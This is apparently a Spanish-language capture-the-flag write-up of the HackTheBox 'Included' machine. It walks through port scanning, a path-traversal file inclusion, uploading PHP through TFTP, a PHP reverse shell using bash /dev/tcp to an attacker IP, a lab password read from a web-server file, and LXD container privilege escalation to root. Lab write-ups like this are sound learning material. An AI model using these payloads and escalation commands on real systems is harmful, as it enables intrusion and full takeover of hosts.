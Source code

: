 1)¿Qué servicio se está ejecutando en la máquina de destino a través de UDP?
	tftp

2)¿A qué clase de vulnerabilidad se enfrenta la página web alojada en el puerto 80?
	local file inclusion
	Podemos leer archivos por el path traversal que encontramos

3)¿Cuál es la carpeta del sistema por defecto que utiliza TFTP para almacenar archivos?
	/var/lib/tftpboot/

4)¿Qué archivo interesante se encuentra en la carpeta del servidor web y puede utilizarse para el Movimiento Lateral?
	.htpasswd

5)¿Cuál es el grupo del que forma parte el usuario Mike y que puede ser explotado para la Escalada de Privilegios?
	lxd

6)Cuando utilizamos una imagen para explotar un sistema mediante contenedores, buscamos una distribución muy pequeña. Nuestra favorita para esta tarea tiene nombre de montaña. ¿Cómo se llama esa distribución?
	Alpine
	**Alpine Linux** es una distribución de Linux muy ligera y segura, diseñada para ser pequeña (unos pocos MB) y eficiente.  
	Es muy usada en contenedores Docker por su velocidad, bajo consumo de recursos y simplicidad.  
	Viene con BusyBox y musl libc, lo que la hace ideal para entornos minimalistas o de hacking.

7)¿Qué bandera ponemos al contenedor para que tenga privilegios de root en el sistema anfitrión?
	security.privileged=true

8)Si el sistema de archivos raíz está montado en /mnt en el contenedor, ¿dónde se puede encontrar la bandera raíz en el contenedor después de montar el sistema anfitrión?
	/mnt/root

----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.207.145
nmap -sS -vvv -n -Pn --min-rate 5000 -p- --open 10.129.207.145 -oG allports
nmap -sCV -p80 10.129.207.145 -oN target
```

![[Included2.png]]
![[Included1.png]]
 
*TTL:* Maquina linux por su cercania a 64
*Puertos*
	`80` HTTP apache


### Las preguntas de HTB nos decia que hagamos un escaneo en UDP

```shell
nmap -sU -Pn -n -vvv --top-ports 200 10.129.207.145 -oN udp-scan
```


![[Included6.png]]
*Puertos:*
`68` dhcpc
`69` tftp

------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

![[Included3.png]]
![[Included4.png]]
El directorio images no nos da ninguna informacion relevante y el whatweb tampoco

--------
# [[LFI(Local File Inclusion)]]
Entramos a la pagina web
![[Included7.png]]
Vemos lo de file=home.php, asi que vamos a probar un [[Path traversal]]

http://10.129.207.145/?file=../../../../../../../..//etc/hosts

![[Included5.png]]
Podemos ver el contenido del /etc/hosts asi que se es ta produciendo un [[LFI(Local File Inclusion)]]

### Hacemos pruebas para ver si interprea archivos .php

Subimos un archivo test.php con [[tftp]]
```php
<?php echo "Hola"; ?>
```

Para conectarnos al servicio usamos`tftp 10.129.117.155 69` y luego para subir el archivo `put test.php`
![[Included8.png]]

![[Included9.png]]
Como podemos ver se interpreto perfectamente

----------
# [[Reverse shell]]


Creamos el archivo shell.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```

Y lo vamos a subir con [[tftp]]
Para conectarnos al servicio usamos`tftp 10.129.117.155 69` y luego para subir el archivo `put shell.php`
![[Included8.png]]

Y para que se ejecute vamos a leer el archivo con el [[LFI(Local File Inclusion)]]
Esta ruta la sabemos por que es el directorio predeterminado en el cual tftp sube los archivos
http://10.129.117.155/?file=../../../../../../..///var/lib/tftpboot/shell.php
Mientras estamos en escucha con [[nc -nlvp 443]] 

![[Included10.png]]
Y ya estamos adentro como el usuario www-data

-------
# [[Tratamiento de la TTY]]

---------
# Escalada de privilegios al usuario mike 

Listando todos los archivos del directorio con [[ls]] `ls -la` Pudimos ver el archivo oculto de *.htaccess* y al catearlo vemos que nos da un pregunto usuario y contraseña

![[Included11.png]]
mike:Sheffield19
Con el comando `su mike` y ponemos la contraseña *Sheffield19*
![[Included12.png]]
Y ya somos el usuario mike

----------
# Escalada al usuario root con [[Lxd contenedor con montura]]

[Articulo hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html)

Para descargar la imagen y crearla en nuestra maquina
```
git clone https://github.com/saghul/lxd-alpine-builder  
cd lxd-alpine-builder  
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine  
sudo ./build-alpine -a i686
```
Despues nos pusimos en escucha con [[python3 -m http.server]] . Y desde la maquina victima con `wget 10.10.14.8:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz` descargamos la imagen

#### Ahora para levantar el contenedor:
```shell
lxc image import ./alpine*.tar.gz --alias myimage  
lxd init  
lxc init myimage mycontainer -c security.privileged=true  
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true  
lxc start mycontainer  
lxc exec mycontainer /bin/bash
```
Una vez hecho esto ya podemos ya podemos catear las flags por que somos root

![[Included13.png]]


-------------
# Creditos

[Writeup de 13xch](https://medium.com/infosec-watchtower/hackthebox-write-up-included-8e54530c622c)